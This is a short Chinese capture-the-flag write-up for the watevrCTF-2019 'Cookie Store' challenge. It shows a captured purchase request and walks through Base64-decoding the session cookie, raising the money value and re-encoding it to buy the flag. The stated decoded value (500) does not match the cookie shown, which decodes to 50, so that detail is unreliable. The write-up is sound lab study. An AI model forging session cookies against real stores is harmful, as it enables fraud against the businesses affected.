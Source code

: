 # [watevrCTF-2019]Cookie Store

![image-20210602173806699]([watevrCTF-2019]Cookie Store/image-20210602173806699.png)

## 0x01 知识点

- Base64编码
- cookie伪造

## 0x02 过程

![image-20210602173922060]([watevrCTF-2019]Cookie Store/image-20210602173922060.png)

先尝试买一下1元的cookie

```post
POST /buy HTTP/1.1
Host: 6216e1db-3c6e-4057-8dfd-812c6bbf2670.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Origin: http://6216e1db-3c6e-4057-8dfd-812c6bbf2670.node3.buuoj.cn
Connection: close
Referer: http://6216e1db-3c6e-4057-8dfd-812c6bbf2670.node3.buuoj.cn/
Cookie: UM_distinctid=179aceacf02273-0590c27f90e5108-4c3f2c72-144000-179aceacf032bc; session=eyJtb25leSI6IDUwLCAiaGlzdG9yeSI6IFtdfQ==
Upgrade-Insecure-Requests: 1

id=0
```

抓到的包看到`session=eyJtb25leSI6IDUwLCAiaGlzdG9yeSI6IFtdfQ==`

base64解码后：`{"money": 500, "history": []}`

尝试修改一下money --> `{"money": 500, "history": ["Yummy chocolate chip cookie"]}`

base64编码：`eyJtb25leSI6IDUwMCwgImhpc3RvcnkiOiBbIll1bW15IGNob2NvbGF0ZSBjaGlwIGNvb2tpZSJdfQ==`

把id的值该为2，放过抓到的包

即可拿到flag

![image-20210602174212397]([watevrCTF-2019]Cookie Store/image-20210602174212397.png)